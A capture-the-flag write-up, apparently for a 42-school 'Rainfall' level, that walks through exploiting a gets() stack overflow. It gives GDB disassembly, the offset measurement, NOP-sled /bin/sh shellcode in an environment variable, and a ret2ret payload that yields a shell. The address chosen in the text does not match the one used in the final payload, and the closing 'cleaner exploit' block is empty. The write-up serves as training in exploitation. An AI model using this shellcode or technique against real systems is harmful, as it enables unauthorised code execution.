 # Level2

First step - testing the program

	$ ./level2
	a
	a

The program print the input

Start it in GDB

	gdb-peda$ disas main
	Dump of assembler code for function main:
	   0x0804853f <+0>:		push   ebp
	   0x08048540 <+1>:		mov    ebp,esp
	   0x08048542 <+3>:		and    esp,0xfffffff0
	   0x08048545 <+6>:		call   0x80484d4 <p>
	   0x0804854a <+11>:	leave
	   0x0804854b <+12>:	ret
	End of assembler dump.

The main call a function "p"

	gdb-peda$ disas p
	Dump of assembler code for function p:
	   0x080484d4 <+0>:		push   ebp
	   0x080484d5 <+1>:		mov    ebp,esp
	   0x080484d7 <+3>:		sub    esp,0x68
	   0x080484da <+6>:		mov    eax,ds:0x8049860
	   0x080484df <+11>:	mov    DWORD PTR [esp],eax
	   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
	   0x080484e7 <+19>:	lea    eax,[ebp-0x4c]
	   0x080484ea <+22>:	mov    DWORD PTR [esp],eax
	   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
	   0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]
	   0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax
	   0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]
	   0x080484fb <+39>:	and    eax,0xb0000000
	   0x08048500 <+44>:	cmp    eax,0xb0000000
	   0x08048505 <+49>:	jne    0x8048527 <p+83>
	   0x08048507 <+51>:	mov    eax,0x8048620
	   0x0804850c <+56>:	mov    edx,DWORD PTR [ebp-0xc]
	   0x0804850f <+59>:	mov    DWORD PTR [esp+0x4],edx
	   0x08048513 <+63>:	mov    DWORD PTR [esp],eax
	   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
	   0x0804851b <+71>:	mov    DWORD PTR [esp],0x1
	   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
	   0x08048527 <+83>:	lea    eax,[ebp-0x4c]
	   0x0804852a <+86>:	mov    DWORD PTR [esp],eax
	   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
	   0x08048532 <+94>:	lea    eax,[ebp-0x4c]
	   0x08048535 <+97>:	mov    DWORD PTR [esp],eax
	   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
	   0x0804853d <+105>:	leave
	   0x0804853e <+106>:	ret
	End of assembler dump.

We can see a `gets()` call. The function gets is dangerous because it's vulnerable to overflow

**********************************

Let's check the size of the offset for overflow. We will use the gdb-peda pattern tool

	gdb-peda$ pattern create 200 file
	Writing pattern of 200 chars to filename "file"

	gdb-peda$ run < file
	Starting program: /home/nico/42/rainfall/level2/Ressources/level2 < file
	AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAJAAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA

	Program received signal SIGSEGV, Segmentation fault.
	...
	EIP: 0x41414a41 ('AJAA')
	...
	Stopped reason: SIGSEGV
	0x41414a41 in ?? ()

	gdb-peda$ pattern search
	Registers contain pattern buffer:
	...
	EIP+0 found at offset: 80
	...

The offset for overwrite EIP is 80. Let's be sure

	$ python -c 'print "a"*80' > payload

	(gdb-peda)$ run < payload
	Starting program: /home/nico/42/rainfall/level2/Ressources/level2 < payload
	aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

	Program received signal SIGSEGV, Segmentation fault.
	...
	EIP: 0xf7e6fc0f (cmp    BYTE PTR [eax],dh)
	...
	Stopped reason: SIGSEGV
	0xf7e6fc0f in ?? () from /lib32/libc.so.6

Ok, EIP is not overwrite, add 4 bytes and we will overwrite it

	$ python -c 'print "a"*84' > payload

	(gdb-peda)$ run < payload
	Starting program: /home/nico/42/rainfall/level2/Ressources/level2 < payload
	aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

	Program received signal SIGSEGV, Segmentation fault.
	...
	EIP: 0x61616161 ('aaaa')
	...
	Stopped reason: SIGSEGV
	0x61616161 in ?? ()

Perfect. We have the size

**********************************

For the exploit, we can't overwrite and use a stack address, because there is a check in the code

This code check if the EIP address is an address on the stack. The program quit if we do it


	if ((check & 0xb0000000) == 0xb0000000) {
		printf("(%p)\n", check);
		exit(1);
	}

	0x080484fb <+39>:	and    eax,0xb0000000
	0x08048500 <+44>:	cmp    eax,0xb0000000
	0x08048505 <+49>:	jne    0x8048527 <p+83>

We can use an env variable to store the payload

	$ export exploit=$(python -c 'print "\x90"*1000+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"')

The shellcode is from the Hackndo tutorial (https://beta.hackndo.com/buffer-overflow/)

Now we need to execute this payload using the ret2ret method

We need the of one of the NOPs in the env and the address of the ret instruction in the p function

Get the environment payload address

	(gdb-peda)$ b *main+12
	Breakpoint 1 at 0x804854b

	(gdb-peda)$ r
	Starting program: /home/nico/42/rainfall/level2/Ressources/level2
	...
	Breakpoint 1, 0x0804854b in main ()

Put a breakpont just before the last return

	(gdb-peda)$ x/200xs (char *)environ
	0xffffdb96:	"exploit=", '\220' <repeats 192 times>...
	0xffffdc5e:	'\220' <repeats 200 times>...
	0xffffdd26:	'\220' <repeats 200 times>...
	0xffffddee:	'\220' <repeats 200 times>...
	0xffffdeb6:	'\220' <repeats 200 times>...

Get the address of our env variable that contain the payload

	(gdb-peda)$ x/50i 0xffffdb96
	0xffffdb96:	gs js  0xffffdc09
	0xffffdb99:	ins    BYTE PTR es:[edi],dx
	0xffffdb9a:	outs   dx,DWORD PTR ds:[esi]
	0xffffdb9b:	imul   esi,DWORD PTR [ebp+edi*1-0x70],0x90909090
	0xffffdba3:	nop
	0xffffdba4:	nop
	0xffffdba5:	nop
	0xffffdba6:	nop
	0xffffdba7:	nop
	0xffffdba8:	nop
	0xffffdba9:	nop
	0xffffdbaa:	nop
	0xffffdbab:	nop
	0xffffdbac:	nop
	0xffffdbad:	nop
	0xffffdbae:	nop
	0xffffdbaf:	nop
	0xffffdbb0:	nop
	0xffffdbb1:	nop

Get all the addresses and choose one in the nopsled : "0xffffdbac"

We have our payload address

Now, get the ret address

	(gdb-peda)$ disas p
	Dump of assembler code for function p:
	   0x080484d4 <+0>:	push   ebp
	   0x080484d5 <+1>:	mov    ebp,esp
	   0x080484d7 <+3>:	sub    esp,0x68
	   0x080484da <+6>:	mov    eax,ds:0x8049860
	   ...
	   0x0804853d <+105>:	leave
	   0x0804853e <+106>:	ret
	End of assembler dump.

The address is "0x0804853e"

We can build the exploit. With 80 chars + the ret address for pop and get the env address + env address

	$ python -c 'print "a"*80+"\x3e\x85\x04\x08"+"\x83\xdd\xff\xff"' > /tmp/exploit

Try it!

	cat /tmp/exploit - | ./level2
	aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa>aaaaaaaaaaaa>����
	ls
	Ressources  flag     peda-session-dash.txt    source.c
	file	    payload  peda-session-level2.txt  walkthrough

We have a shell!

Cleaner exploit

```python



```
